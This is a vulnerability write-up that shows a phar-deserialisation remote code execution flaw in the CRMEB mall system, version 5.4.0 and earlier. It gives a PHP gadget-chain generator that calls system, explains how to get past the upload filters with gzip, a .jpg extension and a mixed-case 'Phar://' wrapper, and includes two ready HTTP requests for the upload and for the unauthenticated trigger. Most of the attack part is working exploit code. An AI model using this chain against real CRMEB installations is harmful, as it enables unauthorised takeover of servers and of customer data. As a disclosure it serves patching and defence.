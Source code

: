 BUG_Author:

Rui Jie

Affected version:

Version<=5.4.0

Vendor:
https://www.crmeb.com/

CRMEB open source mall system

Software:
https://gitee.com/ZhongBangKeJi/CRMEB

https://github.com/crmeb/CRMEB


Vulnerability File:

app/api/controller/v1/PublicController.php

app/common.php

Description:
 A vulnerability categorised as critical has been identified in CRMEB. This affects the put_image section of the file common.php. Manipulation of the image/code parameter results in phar deserialisation enabling the RCE
 
 It's a complicated process.
 
 This system is based on thinkphp6 again, I can get the available deserialisation chain through code audit
 
```php
 <?php  
  
namespace think\model\concern;  
  
trait Attribute  
{  
    private $data = ["evil_key" => "calc"];  
    private $withAttr = ["evil_key" => "system"];  
}  
  
namespace think;  
  
abstract class Model  
{  
    use model\concern\Attribute;  
    private $lazySave;  
    protected $withEvent;  
    private $exists;  
    private $force;  
    protected $table;  
    function __construct($obj = '')  
    {  
        $this->lazySave = true;  
        $this->withEvent = false;  
        $this->exists = true;  
        $this->force = true;  
        $this->table = $obj;  
    }  
}  
namespace app\model\product\product;  
  
use crmeb\traits\ModelTrait;  
use think\Model;  
  
  
class StoreProductCate extends Model  
{  
}  
  
$a = new StoreProductCate();  
$b = new StoreProductCate($a);  
echo urlencode(serialize($b));  
$phar = new \Phar('x.phar');  
$phar->stopBuffering();  
$phar->setStub( 'GIF89a'.'<?php __HALT_COMPILER();?>');  
$phar->addFromString('test.txt', 'test');  
$phar->setMetadata($b);  
$phar->stopBuffering();
```
This generates a phar file containing the available serialisations, I try to pop up the calculator locally
After any user has logged in, we can try to upload this file as an avatar, but there are some filters here

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122332062.png)
Both the suffix and the file content are restricted here
We can try to gzip the phar file to bypass the content detection, modify the extension to .jpg renamed 123.jpg

I'll put 123.jpg here
![123.jpg](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130004529.jpg)

POC1

Note that here I'm using yakit's tags directly to read the contents of the local file 123.jpg before uploading it

```
POST /api/upload/image HTTP/1.1
Host: 127.0.0.21
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3eJTGWU51qa6ag3o
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Dest: empty
Referer: http://127.0.0.21/pages/users/user_info/index
Origin: http://127.0.0.21
Accept-Encoding: gzip, deflate, br, zstd
Cookie: cb_lang=zh-cn; PHPSESSID=84e2385486352b76586e45157fd93cda; WS_ADMIN_URL=ws://127.0.0.21/notice; WS_CHAT_URL=ws://127.0.0.21/msg; XDEBUG_SESSION=11675
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"
Sec-Fetch-Mode: cors
Authori-zation: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJwd2QiOiJkNDFkOGNkOThmMDBiMjA0ZTk4MDA5OThlY2Y4NDI3ZSIsImlzcyI6IjEyNy4wLjAuMjEiLCJhdWQiOiIxMjcuMC4wLjIxIiwiaWF0IjoxNzIwNzc0NDU2LCJuYmYiOjE3MjA3NzQ0NTYsImV4cCI6MTcyMzM2NjQ1NiwianRpIjp7ImlkIjoxLCJ0eXBlIjoiYXBpIn19.LeWiJQ-aB4EqFsXuWEur2iNuybXLyLzusTepZC896Gg
Sec-Fetch-Site: same-origin
Content-Length: 1437

------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="filename"

pics
------WebKitFormBoundary3eJTGWU51qa6ag3o
Content-Disposition: form-data; name="pics"; filename="123.jpg"
Content-Type: image/jpeg

{{file(D:\\123.jpg)}}
------WebKitFormBoundary3eJTGWU51qa6ag3o--

```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130007396.png)


You can get the location of the uploaded image
For example, here it is `http://127.0.0.21/uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg`
Now we can trigger it with the  `put_image` method in app/common.php(This is an unauthorised interface)
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122345869.png)
There is a filter on phar://, which we can bypass with Phar://.
The readfile function will trigger the phar deserialisation implementation rce

POC2
```
POST /api/image_base64 HTTP/1.1
Host: 127.0.0.21
Cookie: cb_lang=zh-cn; PHPSESSID=c3db7bedde04b37c0bc6a5699dbde774
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Referer: http://crmeb.cc//api/image_base64
Accept-Language: zh-CN,zh;q=0.9
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cache-Control: max-age=0
Content-Length: 53

{"image":"Phar://./uploads/store/comment/20240713/9bcb28a14962bb8fb64b0652d2212ef4.jpg","code":""}
```
![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407122354438.png)

![image.png](https://jerry-note-imgs.oss-cn-beijing.aliyuncs.com/imgs/202407130009247.png)

However, it should be noted that it uses the CacheService::remember method to try to get the Base64 encoding of the $imageUrl from the cache, which should be changed after the first execution

This means you may need to upload once, trigger once.

Now we can execute any command to implement RCE！
